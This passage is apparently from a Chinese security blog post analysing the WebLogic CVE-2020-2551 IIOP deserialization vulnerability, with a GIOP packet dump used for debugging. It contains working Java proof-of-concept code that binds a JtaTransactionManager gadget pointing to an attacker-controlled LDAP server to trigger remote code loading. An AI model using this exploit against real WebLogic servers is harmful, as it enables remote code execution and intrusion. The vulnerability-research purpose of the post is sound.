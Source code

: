 图片来源[手把手教你解决Weblogic CVE-2020-2551 POC网络问题](https://xz.aliyun.com/t/7498)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201110173946927.png)

---

&emsp;&emsp; 下面是无意之中发现的一个点，对比发现多了两行代码。
```java
        IOPProfile.IP = "192.168.116.146";
        IOPProfile.PORT = 7001;
```
&emsp;&emsp; 查看``IOPProfile.class``源码发现，添加了``IP``和``PORT``两个变量，在327和328行处修改了代码逻辑。其实这里有一个小知识点，Java运行编译会优先加载本地，然后在加载依赖，这里的本质是复写。
```java
        this.host = IP;
        this.port = PORT;
```

```java

   public static void main(String[] args) throws Exception {
        IOPProfile.IP = "192.168.116.146";
        IOPProfile.PORT = 7001;

        Hashtable<String, String> env = new Hashtable<String, String>();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        // 修改对应的iiop主机ip端口
        env.put("java.naming.provider.url", "iiop://192.168.116.146:7001"); // 127.0.0.1 = 2130706433
=
        Context context = new InitialContext(env);

        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("ldap://192.168.116.1:1389/Weblogicpoc");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);

        context.rebind("hello", remote);

    }
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/20201110173154922.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201110173138862.png)

---

# 调试分析



---
##  流程
### 请求GIOP NameServer地址
>
>0000   00 0c 29 a8 be 93 00 50 56 c0 00 08 08 00 45 00   ..)....PV.....E.
>0010   00 4b 02 2c 40 00 40 06 ce 9c c0 a8 74 01 c0 a8   .K.,@.@.....t...
>0020   74 92 e5 42 1b 59 94 ac fd 63 b9 3e a4 58 50 18   t..B.Y...c.>.XP.
>0030   10 0a 5d ae 00 00 ``47 49 4f 50`` 01 02 00 03 00 00   ..]...``GIOP``...... // GIOP 标志 47 49 4f 50
>0040   00 17 00 00 00 02 00 00 00 00 00 00 00 0b ``4e 61``   ..............``Na``
> ``0050   6d 65 53 65 72 76 69 63 65 ``                    ``meService``
>